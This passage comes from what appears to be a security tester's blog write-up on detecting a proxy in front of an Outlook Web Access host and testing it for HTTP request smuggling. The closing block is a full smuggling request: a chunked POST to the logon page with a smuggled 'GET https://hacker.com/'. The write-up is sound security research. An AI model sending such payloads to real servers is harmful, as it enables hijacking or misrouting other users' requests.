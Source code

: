 A regular webserver would generate a "421 Misdirected Request" response. An example is included below.

Response: 

{% highlight http %}
HTTP/1.1 421 Misdirected Request
Server: Apache
Content-Length: 322
Content-Type: text/html; charset=iso-8859-1

-- snip --
<p>The client needs a new connection for this request as the requested host name does not match the Server Name Indication (SNI) in use for this connection.</p>
-- snip -- 
{% endhighlight %}

However, when we ran this against `owa.customer.com`, the server returned the following response, a `302 Moved Temporarily`. Back then, I personally thought this redirect was typical behaviour for an HTTP proxy. However, later it sank in to me that it should have been a `200 OK` or `203 Non-Authoritative Information` with the actual response body, as stated in [RFC7230](https://tools.ietf.org/html/rfc7230){:target="_blank"}{:rel="noopener noreferrer"}.

Response:

{% highlight http %}
HTTP/1.1 302 Moved Temporarily
Location: https://actually-request-this-site.com/owa/
Server: server1
X-FEServer: US-EXCH-008
-- snip --
{% endhighlight %}

Something that does however reveal that a proxy in use, is the `Server` header, with `server1` as value. This is a non-default value for Microsoft IIS servers. By default, the value is `Microsoft-IIS/8.5` (or another version). This indicates that, most likely, a proxy altered the response.

Now that we have the indication that `owa.customer.com` is proxied, we can continue with checking if it is vulnerable to HRS.

#### Identifying vulnerable proxy setups

With James Kettle's research in mind, we set out to investigate whether this setup is potentially vulnerable to HRS. To identify if `owa.customer.com` is vulnerable to HRS, we sent the following request.

{% highlight http %}
POST /owa/auth/logon.aspx?2whS=929722944 HTTP/1.1
 Transfer-Encoding: chunked
Connection: keep-alive
Host: owa.customer.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: nl,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 124

44
6kqfa=x&url=https%3a%2f%2fowa.customer.com%2fowa%2f&reason=0&whfto=x
0

GET https://hacker.com/ HTTP/1.0
X-Ignore: 1
{% endhighlight %}
 